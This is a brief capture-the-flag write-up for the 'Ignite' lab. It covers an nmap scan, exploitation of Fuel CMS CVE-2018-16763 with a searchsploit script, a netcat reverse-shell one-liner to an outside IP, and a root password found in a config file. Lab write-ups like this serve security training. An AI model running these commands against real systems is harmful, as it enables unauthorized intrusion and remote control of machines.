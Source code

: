 # [Challenge](https://tryhackme.com/room/ignite)

- # ENUM
	- ### nmap (`nmap -A -p- -T4 ignite`)
		- PORT   STATE SERVICE VERSION
			80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
			| http-robots.txt: 1 disallowed entry 
			|_/fuel/
			|_http-title: Welcome to FUEL CMS
			|_http-server-header: Apache/2.4.18 (Ubuntu)

- # EXPLOITATION
	- Fuel CMS 1.4 ---- (`CVE-2018-16763`) ---> Remote Code Execution (Thanks `searchsploit`)
		- `python3 50477.py -u http://ignite`
			- Let's spawn a revshell (`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.212 8888 >/tmp/f`)
			- `python -c "import pty; pty.spawn('/bin/bash')"`

- # PRIVILEGE ESCALATION
	- After a very long research, I found the password in `/var/www/html/fuel/application/config`: `mememe`
		- We're ROOT!
